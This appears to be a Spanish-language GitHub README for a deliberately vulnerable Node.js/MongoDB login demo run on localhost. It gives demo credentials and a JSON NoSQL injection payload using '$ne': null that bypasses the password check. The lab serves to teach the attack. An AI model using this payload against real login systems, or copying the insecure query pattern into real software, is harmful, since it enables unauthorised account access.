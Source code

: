 # Login Inseguro con Inyección NoSQL

Creacion de un login con el cual se pueda hacer inyeccion sql

## Tecnologías

- Node.js  
- Express  
- MongoDB Atlas  
- Mongoose

## Crear un usuario

 
[http://localhost:3000/crear](http://localhost:3000/crear)  
Se creará el usuario:  
- **usuario**: `admin`  
- **contraseña**: `admin123`

## Intento de login normal

1. Ingresa desde la página principal `/`.
2. Usa las credenciales reales: `admin` / `admin123`.

## Realizar bypass por inyección NoSQL

Haz clic en el botón **Bypass Login** para enviar un payload malicioso:

```json
{
  "username": "admin",
  "password": { "$ne": null }
}
```

Esto permite acceder sin conocer la contraseña real.